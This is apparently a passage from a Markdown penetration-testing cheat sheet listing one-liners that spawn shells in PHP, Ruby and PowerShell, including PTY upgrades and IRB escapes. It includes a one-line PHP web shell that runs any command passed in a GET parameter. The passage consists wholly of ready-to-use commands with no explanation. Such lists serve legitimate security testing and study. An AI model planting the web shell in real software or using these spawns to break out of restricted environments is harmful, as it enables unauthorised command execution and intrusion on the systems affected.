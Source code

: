 ### Interactive shell
```php
php -r 'pcntl_exec("/bin/sh", ["-i"]);'
```

### Web shell
```php
<?php system($_GET['cmd']); ?>
```

### With PTY
```php
php -r '$pty = "/bin/bash"; posix_setsid(); proc_open($pty, [0=>STDIN,1=>STDOUT,2=>STDERR], $pipes);'
```

---

## Ruby Shell Spawns

### Basic shell
```ruby
ruby -e 'exec "/bin/sh"'
```

### Interactive PTY
```ruby
ruby -e 'require "pty"; PTY.spawn("/bin/bash") {|r,w,pid| Process.wait pid }'
```

### IRB shell
```ruby
irb
# Then within IRB:
system("/bin/bash")
```

---

## PowerShell Spawns

### Basic shell
```powershell
Start-Process -NoNewWindow -FilePath "cmd.exe"
```

### Interactive shell
```powershell
powershell -nop -c "$ps = [PowerShell]::Create(); $ps.AddScript('cmd /c start cmd.exe').Invoke()"
```
